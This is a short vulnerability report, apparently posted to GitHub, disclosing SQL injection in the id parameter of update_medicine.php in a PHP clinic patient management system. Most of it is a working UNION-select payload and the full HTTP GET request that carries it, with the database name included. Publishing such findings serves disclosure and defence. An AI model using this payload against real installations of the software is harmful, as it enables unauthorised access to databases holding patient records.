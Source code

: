 # Clinic's Patient Management System v1.0 by oretnom23 has SQL injection

BUG_Author：JINGLongZhou

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: /pms/update_medicine.php?id=

Vulnerability location: /pms/update_medicine.php?id=, id

dbname = pms_db

[+] Payload: /pms/update_medicine.php?id=-2%20union%20select%201,database()--+ // Leak place ---> id

```SQL
GET /pms/update_medicine.php?id=-2%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=odknb2obdq1nkaqk7p7u8hvli8
Connection: close
```

![IMG](https://user-images.githubusercontent.com/54017627/177024923-6f9f3a80-d822-4c43-bafd-996b63a13438.png)
